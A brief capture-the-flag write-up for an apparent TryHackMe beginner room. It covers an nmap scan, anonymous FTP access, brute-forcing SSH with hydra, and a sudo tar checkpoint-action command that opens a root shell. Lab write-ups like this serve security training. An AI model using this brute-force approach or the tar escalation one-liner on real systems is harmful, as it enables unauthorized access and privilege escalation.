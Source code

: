 ##Easy room to practice basic enumeration and privilege escalation in linux

#Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
#FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

#Found login and password to ssh using hydra

```
user: ***
password: *******************

```
#Found flag1: `THM{*****_*********}`

#Using sudo -l found that user can run tar as sudo 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
opens a shell as root and then found root flag under/root/root.txt
#Found flag2:THM{******_******}
